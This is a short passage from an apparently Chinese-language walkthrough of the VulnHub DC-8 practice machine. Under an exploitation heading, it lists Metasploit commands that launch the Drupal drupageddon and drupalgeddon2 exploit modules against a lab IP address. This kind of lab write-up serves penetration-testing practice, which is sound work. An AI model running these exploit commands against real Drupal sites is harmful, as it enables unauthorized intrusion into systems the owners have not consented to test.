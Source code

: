 ![](../../../../../../assets/img/安全/实验/靶机/VulnHub/DC/DC8/3.png)

---

# 中期-漏洞利用

```
msfconsole
use exploit/multi/http/drupal_drupageddon
set RHOSTS 192.168.141.141
run
use exploit/unix/webapp/drupal_drupalgeddon2
set RHOSTS 192.168.141.141
run
```

